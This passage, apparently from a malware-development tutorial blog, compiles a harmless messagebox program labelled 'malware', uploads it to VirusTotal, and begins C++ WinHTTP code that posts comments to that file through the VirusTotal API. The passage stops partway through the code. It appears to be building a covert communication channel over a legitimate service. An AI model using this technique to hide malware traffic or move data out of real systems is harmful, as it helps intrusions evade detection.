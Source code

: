 As usual, this is just `meow-meow` messagebox "malware".    

Compile it:    

```bash
x86_64-w64-mingw32-g++ meow.c -o meow.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/126/2024-06-25_14-09.png){:class="img-responsive"}    

And upload it to VirusTotal:    

![malware](/assets/images/126/2024-06-25_14-00.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/details](https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/details)    

At the next step we will create simple logic for posting comment to this file:    

```cpp
#define VT_API_KEY "VIRUS_TOTAL_API_KEY"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v3/files/" FILE_ID "/comments", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"data\": {\"type\": \"comment\", \"attributes\": {\"text\": \"%s\"}}}", comment);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"x-apikey: " VT_API_KEY "\r\nUser-Agent: vt v.1.0\r\nAccept-Encoding: gzip, deflate\r\nContent-Type: application/json", -1, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }
```